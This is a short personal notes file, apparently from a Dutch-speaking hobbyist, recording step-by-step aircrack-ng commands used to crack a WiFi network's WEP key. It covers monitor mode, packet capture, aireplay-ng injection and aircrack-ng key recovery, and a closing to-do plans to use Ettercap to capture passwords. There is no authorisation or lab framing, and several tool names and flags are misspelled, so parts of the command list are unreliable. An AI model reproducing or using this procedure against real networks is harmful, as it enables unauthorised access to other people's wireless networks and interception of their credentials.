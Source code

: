 #27/11/2015

Hacked WiFi for the first time! ![FOTO](http://i.imgur.com/PP0AThP.png)

#Steps/Commands

wlan0 = own interface -> wlan1monmon
mon0 = find it by "airmon-ng"

###Wireless Reconnaiccance:
**Window 1**
* iwconfig
* airmin-ng start wlan0
* airodump-ng mon0
* Find information in table
  * ESSID
  * BSSID
  * Channel
  * Client's  MAC

###WEP:
**Window 1**
* airmon-ng
  * Find mon0
* airodump-ng mon0
* Find information in table
	
**New window 2**
* airodump-ng --bssid "client's MAC" -c "Channel" -w wep_log mon0

**New window 3** 
* ifconfig 
* Find own MAC

**New window 4**
* airdoplay-ng -l 0 -a "client's MAC" -h "own MAC" -e "name connaction" mon0 --ignore-negative-one
* airoplay-ng -3 -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one

**New window 5**
* aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one
* use this packet? ENTER

**Window 2** 
* Everything is fine if data is above 5000 
* Close window 2, 3, 4, 5

**First window**	
* clear
* aircrack-ng -a l -b "client's MAC" -n 64 wep_log-01.cap
	
**_FIND PASSWORD!!!!_**

Next time: Script schrijven!
TODO: Ethercap opzoeken (Hoe wachtwoorden "vangen" !?)
